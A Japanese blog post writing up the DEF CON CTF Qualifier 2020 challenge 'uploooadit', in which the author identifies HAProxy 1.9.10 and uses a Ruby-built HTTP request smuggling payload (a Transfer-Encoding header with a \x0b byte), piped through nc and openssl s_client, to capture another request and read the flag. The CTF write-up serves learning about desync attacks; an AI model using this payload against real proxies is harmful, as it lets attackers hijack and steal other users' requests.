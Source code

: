 +++
author = "Satoshi Tajima"
categories = [ "ja", "" ]
date = "2020-05-18T23:00:00+09:00"
description = ""
featured = ""
featuredalt = ""
featuredpath = ""
linktitle = ""
title = "DEF CON CTF Qualifier 2020 uploooadit WriteUp"

+++

2020/05/16 ~ 2020/05/18 に開催されたDEF CON CTF Qualifier 2020に参加して、  
welcome-to-dc2020-quals, welcome-video, uploooaditの3問をときました。  

最初の2つはチュートリアルなので割愛して、uploooaditのWriteUpを書きます。  

# ソースコードを確認

* Flaskで書かれたPythonのWebアプリケーション
* エンドポイントは以下の3つ
    * GET / ... 空のページです。
    * POST /files/ ... X-guidというリクエストヘッダに記載された文字列の通りのパスにファイルを保存します。
    * GET /files/ ... POST /files/ でアップロードしたファイルのコンテンツを返します。


# 稼働環境を確認

普通にリクエストを投げてみて、HAProxy + gunicorn/20.0.0の構成ということがわかります。

```
$ curl -sv https://uploooadit.oooverflow.io/
.. snip ..
< HTTP/1.1 204 NO CONTENT
< Server: gunicorn/20.0.0
< Date: Sat, 16 May 2020 13:05:18 GMT
< Content-Type: text/html; charset=utf-8
< Via: haproxy
.. snip ..
```

今度はエラーになるようなリクエストを投げてみて、HAProxyのバージョンは1.9.10ということがわかります。  
https://www.haproxy.org/download/1.9/src/CHANGELOG を見ると、2019/08/08のリリースと若干古いのが気になります。  
```
$ curl -sv https://uploooadit.oooverflow.io/あ
< HTTP/1.0 400 Bad request
< Server: haproxy 1.9.10
< Cache-Control: no-cache
< Connection: close
< Content-Type: text/html
<
<html><body><h1>400 Bad request</h1>
Your browser sent an invalid request.
</body></html>
.. snip ..
```

SSRFやHTTP request smugglingあたりができるのではと疑い、
調べてみると HAProxy の HTTP request smuggling というそのまんまの記事が見つかります。

* https://nathandavison.com/blog/haproxy-http-request-smuggling
* https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn

この時点でこんな仮説をたてました。

* フラグが含まれたObjectに対するアクセス、ないしはフラグをアップロードするアクセスが、定常的にリクエストされている。
* HTTP request smugglingによって、そのアクセスの内容を盗み取る必要がある。


# ローカルで検証環境の作成

適当に立ち上げたEC2上に...

* HAProxyの1.9.10を用意 (ソースコードからコンパイル)
* gunicornを用意 (pipでインストール)
* 提供された app.py, store.py を使用 (S3StoreはLocalStoreに切り替え)

という形で環境をつくります。

そして、まずはRubyでこんなPayloadを作成。

* payload.rb

```
payload = <<EOP
POST /files/ HTTP/1.1\r
Host: uploooadit.oooverflow.io\r
X-guid: 11111111-2222-3333-1111-111111111112\r
Content-Type: text/plain\r
Content-Length: 4\r
\r
test\r

EOP
print payload 
```

こんな形でトライ& エラーを繰り返せる状態を作ります。

```
$ ruby payload.rb | nc localhost 1080
```

tcpdumpも使い、パケットを見ながら調整していくと、こんな形でうまくいきそうなことがわかります。

* payload.rb

```
payload = <<EOP.chomp
POST /files/ HTTP/1.1\r
Host: uploooadit.oooverflow.io\r
X-guid: 11111111-2222-3333-1111-111111111112\r
Content-Type: text/plain\r
Content-Length: 158\r
Transfer-Encoding: \x0bchunked\r
\r
0\r
\r
POST /files/ HTTP/1.1\r
Host: uploooadit.oooverflow.io\r
X-guid: 11111111-2222-3333-1111-111111111119\r
Content-Type: text/plain\r
Content-Length: 388\r
\r
test
EOP

print payload 
sleep(10)
```

* コマンド

```bash
$ unbuffer ruby payload.rb | nc localhost 1080
$ curl http://localhost:1080/files/11111111-2222-3333-1111-111111111119
```

# 実環境でのトライ

実際の環境はhttpsなので、ncをopenssl s_clientにし、かつ Content-Length も調整していき...  
最終的に以下のようなコマンドにてリクエストを盗み見ることに成功。

```bash
$ unbuffer ruby payload.rb | openssl s_client -connect uploooadit.oooverflow.io:443
$ curl http://localhost:1080/files/11111111-2222-3333-1111-111111111119
```

リクエストのBodyにFLAGがありました。
```
tesPOST /files/ HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: invoker
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: text/plain
X-guid: 85a290de-9877-4d90-82ea-fe0700a570b0
Content-Length: 152
X-Forwarded-For: 127.0.0.1

Congratulations!
OOO{That girl thinks she's the queen of the neighborhood/She's got the hottest trike in town/That girl, she holds her head up so high}
```

以上、久しぶりに参加したCTFのWriteUpでした。  
いつもCTFは遊び参加で数問見てみて終わりみたいになるんだけど、  
そろそろチームとか組んでがっつり時間確保して上位に入るのを目指すような参加をしたい。


